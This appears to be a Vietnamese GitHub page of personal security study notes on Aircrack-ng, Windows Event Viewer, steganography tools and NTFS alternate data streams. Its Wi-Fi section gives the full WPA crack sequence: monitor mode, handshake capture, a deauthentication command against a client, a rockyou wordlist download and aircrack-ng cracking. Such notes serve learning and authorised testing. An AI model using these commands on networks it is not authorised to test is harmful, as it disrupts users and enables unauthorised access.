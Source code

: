 # Hash function
# Aircrack-ng tools
## Actual activities in a wireless network

Thông thường khi kết nối tới 1 wireless, mik sẽ dùng OSA (Open System Authentication), có những bước sau đây: <br>

1. Gửi đến wireless (AP) 1 yêu cầu cho authentication
2. Nếu thành công AP sẽ accept authentication
3. Gửi đến AP 1 yêu cầu associated
4. Nếu thành công AP sẽ accept associated

--> Đây là trường hợp cơ bản nhất. Ngoài ra
1. WPA/WPA2 được sử dụng, mik pải có EAPOL (1 network protocol) authentication nếu ko thì fail ở step 2.
2. Ngoài ra có 1 MAC filtering
3. AP sử dụng Shared Key Authentication (Pải dùng đúng WEP key mới có thể connect)

> WPA/WPA2 là gì

Giao thức được sử dụng trong wireless connection để tăng security. WPA2 sử dụng AES encryption method

> AP là gì???

Nó như 1 cầu nối giữa thiết bị và mạng. Nó sẽ gửi những packets bao gồm những in4 sau:
1. Name của network (ESSID)
2. Encryption của nó
3. Mbit rate
4. Những channel trong network nào đang hoạt động

> WPA/WPA2 4ways-handshake

Có 2 thứ diễn ra trong quá trình này:
1. Client và AP sẽ trao đổi in4 thông qua 1 kết nối an toàn
2. Quá trình handshake này cần dữ liệu được mã hóa để verified PSK (Pre-Shared key)

Qúa trình này cần thiết trong dictionary attack = cách bắt nó reconnect, ta sẽ có được 4ways-handshake <br>
chưa nhiều thông tin của connection

## Discovering network

Turn on monitor mode của wifi apdapter

```
sudo airmon-ng wlan0 start
```

Nhưng trước khi bật monitor mode, mik cần phải bật airmon-check <br>
để xem cần kill những process nào

```
sudo airmon-ng check
```

```
sudo airmon-ng check kill
```

Sau đó thực hiện bắt tất cả các AP (Access Pointer)

```
sudo airodump-ng <interface>
```
#### Elements ở trong bảng recon network
![image](https://github.com/user-attachments/assets/7b841beb-9466-49ea-ade4-4b148cdae93b)

ý nghĩa của từng elements:

![image](https://github.com/user-attachments/assets/995af50a-18ce-4dc5-ac19-400f22179ee4)

***Nhiều BSSID có cùng ESSI là do chúng share cùng 1 cục ra nhiều địa điểm khác nhau <br>
để mở rộng bandwidth***

## Dictionary Attack

***Tấn công = thử tất cả các password của 1 lists***

1. Bật monitor mode của wifi adapter

  ![Screenshot from 2024-11-20 15-10-05](https://github.com/user-attachments/assets/4ea1853f-b59f-4baa-90e0-1b90315be718)

3. Mik sẽ cần bắt những packets đến AP
  ```
  sudo airodump-ng --bssid <BSSID> --channel <CH> --write <output_file> wlan0mon
  ```
  ![Screenshot from 2024-11-21 20-59-30](https://github.com/user-attachments/assets/6a2f33d1-9189-42a1-b089-a0f85d76e678)

  ***Ở đây thì do mik đẫ tắt monitor mode nên nó sẽ ko hiện station (những máy kết nối tới AP)***
   
3. Deauthicate bắt AP thực hiện 4hand-shake
  ```
  sudo aireplay-ng --deauth <# packets> -a <BSSID> -c <CLIENT-MAC> wlan0mon
  ```
  ![Screenshot from 2024-11-21 20-57-08](https://github.com/user-attachments/assets/77cf81e7-0b46-4a7b-98e2-88304015d978)

  ***Lưu ý: Mình cần phải có EAPOL protocol ms thực hiện đc***

4. Tải rock_you.txt

  ```
  wget https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt
  ```
  
5. Attack Command
  ```
  sudo aircrack-ng -w <dictionary_file> -b <BSSID> <capture_file>.cap
  ```
  ![Screenshot from 2024-11-21 20-46-31](https://github.com/user-attachments/assets/bdd0147b-caae-404a-bb56-81d1558c8ffe)


# Event Viewer
![image](https://github.com/user-attachments/assets/193d98d7-89db-4e70-b341-788858c64224)

Lists log trong windows với các Level lỗi từ thấp tới cao như (Information, Warning, Error, Critical)

![image](https://github.com/user-attachments/assets/e1d3f61c-ae5f-414d-8891-28098fea85ca)

Hiển thị các loại lỗi mà mình muốn xem

![image](https://github.com/user-attachments/assets/dc802fc3-7073-4fa3-9c08-117675a07dd7)

Có thể filter các loại log trong đề mục

![image](https://github.com/user-attachments/assets/245f64c7-625a-4f67-8c69-4fe1b5868296)

Các option mik có thể làm với mỗi event

***Windows ko hỗ trợ xóa 1 log cụ thể, chỉ có thể xóa 1 loạt logs. Nếu có pải dùng 1 3-party***

# Stego Online

*Image Original*

![Screenshot 2024-10-26 062405](https://github.com/user-attachments/assets/f985511b-3308-4c51-b69c-72a1e0893aee)

*Image encrypted*

![encrypted](https://github.com/user-attachments/assets/a3d7663c-27f3-4d2e-807e-406d5f9cb849)

Sử dụng Stego Online

![image](https://github.com/user-attachments/assets/89e6b3ac-9f05-4086-a43d-13d0958c49c4)

# SNOW steg tool
![image](https://github.com/user-attachments/assets/503c231c-d92e-4c81-a024-e20941ebac09)

*Tạo 1 message hiện thị trong file input. Với option -p "password" sẽ dùng cho decrypt output, -m "text" sẽ là text ẩn <br>
mình sẽ giấu trong output file*

![image](https://github.com/user-attachments/assets/209f5e59-c8b9-4572-b8c5-ddd8c4477560)

Để decrypt với cú pháp khá đơn giản

*Cái SNOW này sử dụng phương pháp whitespace steganography. Đầu tiên convert chữ cái ra binary theo ASCII. Với bit 1 tương ứng với <br>
tab còn bit 0 tương ứng với space*

![image](https://github.com/user-attachments/assets/ad27670d-fe9e-4980-9550-4b64a018e7dd)

*Đây là lý do tại sao mình sẽ nhìn thấy 1 loạt tab và space (trống 2 dòng dưới cùng). Nó là 2 dòng đại diện cho cái hidden text*

# NTFS / FAT32

> Một chút về 2 cái này

NTFS và FAT32 là 2 file systems để quản lý toàn bộ file trên máy tính. NTFS được sử dụng bởi Windows còn FAT32 thì méo rõ <br>
vì ko thấy trên Win còn Linux thì dùng ext.

Tác dụng của cái này là để quản lý file, chuyển dữ liệu, đọc, viết, xem file ... Ncl tất cả những gì mình có thể làm trên file <br>
đều do thằng này quản lý. Ví dụ muốn đọc file của Windows trên HĐH Linux thì bắt buộc phải sdung phần mềm thứ 3 để đọc vì (NTFS và ext) <br>
là 2 cái hoàn toàn khác nhau.

> ADS (Alternative Data Stream)

Là 1 cái feature của NTFS có thể hidden 1 file trong 1 file mà ko tác động đến file đó (ko thay đổi size của file, ...)

> Practical

![image](https://github.com/user-attachments/assets/4aa8d2aa-9723-4032-914f-1efd156aebf7)

Tạo 1 file 21 bytes

![image](https://github.com/user-attachments/assets/e78d222e-285f-4ead-a709-a3457d000dfd)

Thực hiện ADS 1 hidden message vào file được chọn, vẫn thấy size của file không thay đổi

![image](https://github.com/user-attachments/assets/cc1e745c-1161-4051-83cd-4bcfd24f586f)

Đọc hidden message có trong file









